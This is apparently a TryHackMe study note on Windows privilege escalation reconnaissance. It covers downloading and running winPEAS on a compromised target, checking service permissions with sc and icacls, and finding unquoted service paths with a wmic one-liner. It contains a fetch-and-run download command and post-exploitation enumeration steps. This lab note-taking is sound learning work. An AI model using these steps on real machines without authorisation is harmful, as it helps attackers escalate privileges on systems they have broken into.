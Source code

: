 # winPEAS - Windows Privilege Escalation Recon
#pentest/tryhackme

## What
[privilege-escalation-awesome-scripts-suite/winPEAS at master · carlospolop/privilege-escalation-awesome-scripts-suite · GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

## How? 
Once inside the windows target machine we can:

1. `powershell -c wget "<url>/winPEAS.exe" -outfile winPEAS.exe`
2. `winPEAS.exe`
3. This will provide a list of misconfigured services
4. What now? Let’s find out if we have permissions to change whatever we need:
	1. `sc qc <service_name>` -> Provide information about the service
	2. `icalcs "<service_name>"` -> Get list of users with permission to run the service

## How do I manually list services running?
`powershell -c "Get-Service"`

- - - -

Alternatives to winPEAS when we want to check for `Unquoted Service Paths` misconfigurations. We can run:
* `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """`